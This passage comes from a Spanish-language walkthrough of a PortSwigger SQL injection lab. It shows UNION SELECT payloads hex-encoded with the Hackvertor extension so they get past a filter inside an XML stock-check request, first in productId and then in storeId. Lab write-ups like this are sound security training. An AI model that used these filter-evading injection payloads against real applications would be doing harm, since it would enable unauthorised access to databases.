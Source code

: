 Una vez instalada, volveremos a el repeater de nuestra peticion y seleccionaremos nuestra consulta inyectada, osea "UNION SELECT NULL -- -" dando click derecho:

"Extension>Hackvector>Encode>hex_entities"

Y una vez lo hagamos se nos transformara y daremos en tramitar peticion:

Nos agregara la etiqueta `<@hex_entities>` a el codigo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
			<@hex_entities>
				8 UNION SELECT NULL -- -
			<@/hex_entities>
		</productId>
		<storeId>
			2
		</storeId>
	</stockCheck>

```

Vemos que nos agregó esas etiquetas, ahora tramitaremos la petición y veremos:

![res](/assets/images/SQLiPortswigger/lab17/response.png)

Vemos que no nos muestra nada, por lo que puede que la inyección no vaya en esta etiqueta, así que otra que puede estar comunicándose con una base de datos sería `<storeId` por lo que lo cambiaremos ahí:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		8
	</productId>
	<storeId>
		<@hex_entities>
			2 UNION SELECT NULL -- -
		<@/hex_entities>
	</storeId>
</stockCheck>

```
